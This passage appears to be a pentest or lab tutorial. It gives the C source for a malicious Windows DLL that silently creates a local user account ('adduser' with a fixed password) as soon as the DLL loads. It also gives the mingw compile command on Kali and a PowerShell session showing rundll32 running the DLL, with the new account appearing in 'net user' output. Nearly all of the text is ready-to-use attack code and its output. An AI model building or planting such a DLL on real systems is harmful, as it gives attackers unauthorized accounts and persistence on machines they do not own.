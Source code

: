 We will use this code, save file as adduser.c

	#include <windows.h>

	void exec(void) {
		system("net user adduser Pass123! /add");
		return;
	}

	BOOL WINAPI DllMain(
		HINSTANCE hinstDLL,
		DWORD fdwReason, 
		LPVOID lpReserved )
	{
		switch( fdwReason ) 
		{ 
			case DLL_PROCESS_ATTACH:
			   exec(); 
			   break;

			case DLL_THREAD_ATTACH:
				break;

			case DLL_THREAD_DETACH:
				break;

			case DLL_PROCESS_DETACH:
				break;
		}
		return TRUE;
	}

Compile dll

	┌──(kali㉿kali)-[~/Desktop]
	└─$ i686-w64-mingw32-gcc -shared adduser.c -o adduser.dll

Run dll with elevated command line 

	PS C:\Users\testuser\Desktop> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest
	nightmare                WDAGUtilityAccount       win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop> rundll32.exe .\adduser.dll,exec
	PS C:\Users\testuser\Desktop> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adduser                  Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

